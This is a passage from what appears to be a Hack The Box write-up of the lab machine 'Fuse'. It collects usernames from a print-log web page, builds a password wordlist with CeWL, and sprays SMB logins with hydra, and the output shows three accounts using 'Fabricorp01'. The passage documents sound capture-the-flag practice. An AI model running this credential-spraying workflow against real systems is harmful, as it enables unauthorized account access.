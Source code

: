 We get another username `sthompson` and a interesting document: `Fabricorp01.docx`.

![Print log 3](/assets/htb/Fuse/web/logs-webpage-3.png)

We get another two usernames `bhult` and `administrator`.

Let us add all these usernames to a wordlist that we can use later on.

```bash
root@darkness:~# cat users.txt 
thompson
pmerton
tlavel
bnielson
bhult
administrator
```

After looking around on the web-interface a bit more, I have decided to use CeWL again to try and generate a wordlist for password-spraying.

### Using CeWL to generate wordlists

We can use a tool called [CeWL](https://github.com/digininja/CeWL) to grep all words from the website and use it as possible password-candidates.

```bash
root@darkness:~# cewl http://fuse.fabricorp.local/papercut/logs/html/index.htm --with-numbers --depth 3 -m 5 -w wl.txt
root@darkness:~# wc -l wl.txt 
104 wl.txt
```

We define that all words with at least 5 characters (numbers possible) are added to the wordlist resulting into 104 possible password candidates.

### Password spraying

We can now start our password-spraying attack with all the found usernames and possible password-candidates.

```bash
root@darkness:~# hydra -L users.txt -P wl.txt smb://10.10.10.193
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-07 12:52:33
[INFO] Reduced number of tasks to 1 (smb does not like parallel connections)
[DATA] max 1 task per 1 server, overall 1 task, 624 login tries (l:6/p:104), ~624 tries per task
[DATA] attacking smb://10.10.10.193:445/
[445][smb] host: 10.10.10.193   login: tlavel   password: Fabricorp01
[445][smb] host: 10.10.10.193   login: bnielson   password: Fabricorp01
[445][smb] host: 10.10.10.193   login: bhult   password: Fabricorp01
1 of 1 target successfully completed, 3 valid passwords found
```
